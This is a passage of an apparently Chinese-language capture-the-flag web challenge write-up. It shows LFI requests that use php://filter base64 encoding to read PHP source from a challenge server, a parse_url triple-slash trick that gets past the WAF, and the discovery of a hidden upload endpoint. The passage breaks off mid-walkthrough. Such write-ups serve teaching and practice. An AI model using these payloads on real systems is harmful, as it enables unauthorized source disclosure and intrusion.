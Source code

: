 http://47.52.152.93:20000/user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

果不其然，我们被waf了

随即审计一下

$uri = parse_url($_SERVER["REQUEST_URI"]);

parse_str($uri['query'], $query);

这段代码可以说是老套路了，详细请看我的这篇分析：

http://skysec.top/2017/12/15/parse-url%E5%87%BD%E6%95%B0%E5%B0%8F%E8%AE%B0/

我们可以通过

http://47.52.152.93:20000///user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg

这样的方式进行绕过

得到源码

if (FLAG_SIG != 1){

die("you can not visit it directly");

}else {

echo "you can find sth in m4aaannngggeee";

}

?>

继续读

http://47.52.152.93:20000///user.php?page=php://filter/read=convert.base64-encode/resource=m4aaannngggeee

得到

if (FLAG_SIG != 1){

die("you can not visit it directly");

}

include "templates/upload2323233333.html";

?>

去访问

http://47.52.152.93:20000/templates/upload2323233333.html

看到有上传，找到上传的后端：upllloadddd.php

接着读23333333

http://47.52.152.93:20000///user.php?page=php://filter/read=convert.base64-encode/resource=upllloadddd
